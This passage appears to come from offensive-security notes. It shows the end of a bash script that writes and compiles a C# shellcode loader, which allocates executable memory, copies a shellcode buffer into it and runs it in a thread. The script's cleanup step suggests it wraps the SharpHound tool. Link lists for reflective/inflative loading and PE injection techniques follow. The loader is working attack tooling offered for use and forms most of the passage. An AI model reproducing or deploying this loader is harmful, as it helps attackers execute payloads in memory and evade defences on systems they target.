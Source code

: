 ```bash
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, ulong dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {
            byte[] buf = new byte[$BUFSIZE] { $BUF };
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (ulong)buf.Length, 0x1000, 0x40);
            Marshal.Copy(buf, 0, addr, buf.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
EOF

mcs -platform:x64 -t:winexe "/tmp/$RNDNAME.cs" -out:"$RNDNAME.exe"
file "$RNDNAME.exe"
rm "/tmp/SharpHound.exe" "/tmp/SharpHound.bin" "/tmp/$RNDNAME.cs"
```
{% endcode %}

{% hint style="info" %}
This technique is enhanced and automated [here](https://gist.github.com/snovvcrash/30bd25b1a5a18d8bb7ce3bb8dc2bae37).
{% endhint %}



### InflativeLoading

- [https://winslow1984.com/books/malware/page/reflectiveloading-and-inflativeloading](https://winslow1984.com/books/malware/page/reflectiveloading-and-inflativeloading)
- [https://github.com/senzee1984/InflativeLoading](https://github.com/senzee1984/InflativeLoading)




## PE Injection

- [https://gist.github.com/hasherezade/e6daa4124fab73543497b6d1295ece10](https://gist.github.com/hasherezade/e6daa4124fab73543497b6d1295ece10)
- [https://xakep.ru/2018/08/27/doppelganging-process/](https://xakep.ru/2018/08/27/doppelganging-process/)
- [https://xakep.ru/2022/04/21/herpaderping-and-ghosting/](https://xakep.ru/2022/04/21/herpaderping-and-ghosting/)
